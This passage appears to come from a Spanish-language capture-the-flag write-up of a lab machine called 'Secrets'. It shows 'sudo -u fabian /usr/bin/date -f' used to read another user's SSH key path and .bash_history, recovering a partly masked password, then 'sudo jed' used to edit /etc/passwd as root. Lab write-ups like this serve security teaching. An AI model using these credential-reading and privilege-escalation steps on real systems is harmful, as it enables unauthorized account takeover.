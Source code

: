 ```bash
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User brad may run the following commands on secrets:
    (fabian) NOPASSWD: /usr/bin/date
brad@secrets:~$ sudo -u fabian /usr/bin/date -f /home/fabian/.ssh/id_rsa
/usr/bin/date: /home/fabian/.ssh/id_rsa: No existe el fichero o el directorio
```
Me puse a pensar en otros archivos que podrían ayudarme a escalar privilegios y entre esos probé .bash\_history para tratar de encontrar alguna antigua autenticación o algo asi.
```bash
brad@secrets:~$ sudo -u fabian /usr/bin/date -f /home/fabian/.bash_history
/usr/bin/date: fecha inválida «cd ~»
/usr/bin/date: fecha inválida «ls -la»
/usr/bin/date: fecha inválida «passwd fabian»
/usr/bin/date: fecha inválida «s3cr3***********»
```
Encontré la posible clave de fabian por lo que la probé a ver si era la verdadera.
```bash
brad@secrets:~$ su fabian
Contraseña: 
fabian@secrets:/home/brad$ whoami
fabian
```
Somos fabian.
# Shell como root.
Nuevamente enumerando encontré que tenía permiso de ejecutar jed como root. Navegando encontré que este era un tipo de editor de archivos por lo que trate de abrir el /etc/passwd con él.

No pude abrirlo directamente en un archivo por lo que lo abrí sin definir uno.
```bash
fabian@secrets:/home/brad$ sudo /usr/bin/jed
```
<img class="img" src="/assets/img/machines/Secrets/10.png" width="1000">
La herramienta tenía un montón de opciones entre ellas estaba abrir un archivo y poder editarlo. Abrí el archivo /etc/passwd para intentar cambiar la clave de root.